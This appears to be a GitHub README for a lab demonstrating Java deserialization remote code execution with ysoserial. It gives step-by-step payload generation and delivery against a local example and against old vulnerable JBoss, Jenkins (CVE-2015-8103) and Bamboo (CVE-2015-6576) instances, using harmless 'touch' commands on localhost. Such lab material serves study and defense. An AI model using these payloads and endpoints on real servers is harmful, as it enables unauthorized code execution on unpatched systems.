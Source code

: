 Here there are practical examples of the - deserialization of untrusted objects - vulnerability.

This use the ysoserial tool to generate exploits.

# Pocs

Minimal Example
---------------------------------
- Use java 8
- cd MinimalExample
- java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
- cp ./exploit.sh /tmp
- chmod +x /tmp/exploit.sh
- javac Employee.java
- javac DeSerializingObject.java
- java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649
- Check if you have installed the JDK 1.8
- java -jar ./jenkins-war-1.649.war
- java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"



Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7
	sudo add-apt-repository ppa:openjdk-r/ppa  
	sudo apt-get update   
	sudo apt-get install openjdk-7-jdk  
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
	java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser 
  or use the payload inside the folder JBoss


# Stacktraces
https://github.com/EdoardoVignati/ysoserial/tree/master/analyze

See the webpage on https://rawgit.com/EdoardoVignati/ysoserial/master/analyze/index.html

# References and readings
https://github.com/EdoardoVignati/ysoserial/blob/master/biblio.bib

Other references:

https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478

https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher


# Defenses
https://link.springer.com/chapter/10.1007/978-3-030-00470-5_21


